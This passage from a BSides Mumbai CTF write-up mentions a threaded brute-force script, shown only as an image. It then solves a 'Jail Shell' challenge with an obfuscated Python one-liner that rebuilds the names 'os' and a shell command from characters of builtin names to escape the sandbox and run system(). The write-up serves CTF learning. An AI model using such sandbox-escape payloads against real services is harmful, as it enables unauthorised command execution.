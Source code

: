 Made this code to bruteforce the code using concurrent threads.

![Untitled](/assets/img/BSides%20Mumbai%20CTF%205b2b9b2ec9614c368ef8a75ee3973733/Untitled%2028.png)

## Challenge 15: Jail Shell

I wont lie but i took reference from this writeup as the chall was similar

[https://github.com/nikosChalk/ctf-writeups/blob/master/uiuctf22/jail/a-horse-with-no-names/README.md](https://github.com/nikosChalk/ctf-writeups/blob/master/uiuctf22/jail/a-horse-with-no-names/README.md)

```python
(lambda:__builtins__.__import__(open.__name__.__getitem__(0).__add__(set.__name__.__getitem__(0))).system(chr.__name__.__getitem__(0).__add__(abs.__name__.__getitem__(0)).__add__(type.__name__.__getitem__(0)).__add__(str(hash).__getitem__(9)).__add__(float.__name__.__getitem__(0)).__add__(list.__name__.__getitem__(0)).__add__(abs.__name__.__getitem__(0)).__add__(globals.__name__.__getitem__(0)).__add__(hash.__doc__.__getitem__(151)).__add__(type.__name__.__getitem__(0)).__add__(hex.__name__.__getitem__(2)).__add__(type.__name__.__getitem__(0))))()

```